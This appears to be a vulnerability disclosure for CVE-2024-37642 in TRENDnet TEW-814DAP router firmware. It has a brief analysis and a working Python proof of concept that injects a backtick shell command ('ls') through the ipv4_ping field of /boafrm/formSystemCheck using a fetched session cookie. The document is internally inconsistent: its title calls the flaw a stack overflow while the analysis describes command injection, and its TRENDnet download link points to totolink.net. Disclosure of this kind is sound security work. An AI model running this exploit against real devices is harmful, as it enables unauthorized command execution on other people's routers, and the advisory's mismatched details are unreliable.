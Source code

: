 # TRENDnet TEW-814DAP v1_(FW1.01B01) stack overflow  at /formSystemCheck

Product: TRENDnet TEW-814DAP Firmware Version: v1_(FW1.01B01)  

Manufacturer's website information：http://trendnet.com.cn/

Firmware download address ：[http://download.trendnet.com/](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37642

### Analysis

The parameter v3 is copied to buffer v6 through the sprintf function, but special strings are not filtered
Therefore, attackers can execute command injection

![image-20240613140114217](./image-20240613140114217.png)



### POC

```python
import argparse, requests, sys, re, json, time

def get_TOKEN(base_url):
    return requests.get(base_url).headers.get('Set-Cookie')

def get_htm(base_url):
    url = f"{base_url}/admin_ping.htm"
    try:
        return requests.get(url)
    except Exception as e:
        pass

def poc(base_url, cookie):
    url = f"{base_url}/boafrm/formSystemCheck"
    data = {
        'submit-url': 'admin_ping.htm',
        'ipv4_ping':'1.1.1.1`ls`'
    }
    return requests.post(url, headers={'Cookie': cookie}, data=data, allow_redirects=False)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The server ip')
    args = parser.parse_args()
    base_url = f"http://{args.ip}"
    cookie = get_TOKEN(base_url)
    get_htm(base_url)
    poc(base_url, cookie)
```

